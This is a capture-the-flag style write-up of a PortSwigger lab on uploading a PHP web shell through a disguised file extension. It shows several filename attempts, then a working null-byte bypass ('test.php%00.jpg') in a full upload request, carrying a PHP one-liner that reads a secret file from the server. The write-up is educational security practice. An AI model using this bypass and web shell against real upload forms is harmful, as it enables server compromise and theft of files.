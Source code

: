 
# Web shell upload via obfuscated file extension

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter


---------------------------------------------

References: 

- https://portswigger.net/web-security/file-upload



![img](images/Web%20shell%20upload%20via%20obfuscated%20file%20extension/1.png)

---------------------------------------------

It is not possible to upoad PHP files:



![img](images/Web%20shell%20upload%20via%20obfuscated%20file%20extension/2.png)


I tried to upload the file with the names:

- “test.php.jpg” but it is interepreted as an image.

- “test.php.” but it is not accepted

- “test%2Ephp” but it is not accepted


The payload “test.php%00.jpg” uploads a file “test.php”:

```
POST /my-account/avatar HTTP/2
...
-----------------------------384622689610978532422380962615
Content-Disposition: form-data; name="avatar"; filename="test.php%00.jpg"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------384622689610978532422380962615
...
```



![img](images/Web%20shell%20upload%20via%20obfuscated%20file%20extension/3.png)


The file test.php has been created:



![img](images/Web%20shell%20upload%20via%20obfuscated%20file%20extension/4.png)